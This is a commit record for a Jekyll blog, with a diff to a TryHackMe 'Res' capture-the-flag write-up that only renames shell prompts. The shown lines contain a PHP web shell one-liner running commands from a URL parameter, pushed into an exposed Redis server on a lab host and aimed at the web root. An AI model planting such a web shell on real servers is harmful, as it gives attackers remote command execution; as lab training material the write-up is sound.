

Before and after one commit to darksec1337/darksec1337.github.io, a Jekyll site: the page built from _posts/2020-10-12-res-writeup.md, in a window 1280 px wide and 900 px high, scrolled down 1580 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2020-10-12-res-writeup.md

````diff
--- a/_posts/2020-10-12-res-writeup.md
+++ b/_posts/2020-10-12-res-writeup.md
@@ -71,13 +71,13 @@ So we can see apache default page
 #### Redis 6379
 
 ```bash
-argenestel@parrot  ~/Desktop/tryhackme/res  nano shell.php
-argenestel@parrot  ~/Desktop/tryhackme/res  cat shell.php
+root@parrot  ~/Desktop/tryhackme/res  nano shell.php
+root@parrot  ~/Desktop/tryhackme/res  cat shell.php
 <?php echo shell_exec($_GET['e'].' 2>&1'); ?>
 argenestel@parrot  ~/Desktop/tryhackme/res  cat shell.php | redis-cli -h 10.10.79.132 -x set lkey
 
 OK
-argenestel@parrot  ~/Desktop/tryhackme/res  redis-cli -h 10.10.79.132
+root@parrot  ~/Desktop/tryhackme/res  redis-cli -h 10.10.79.132
 10.10.79.132:6379> get lkey
 "<?php echo shell_exec($_GET['e'].' 2>&1'); ?>\n"
 10.10.79.132:6379> config set dir /var/www/html/
````
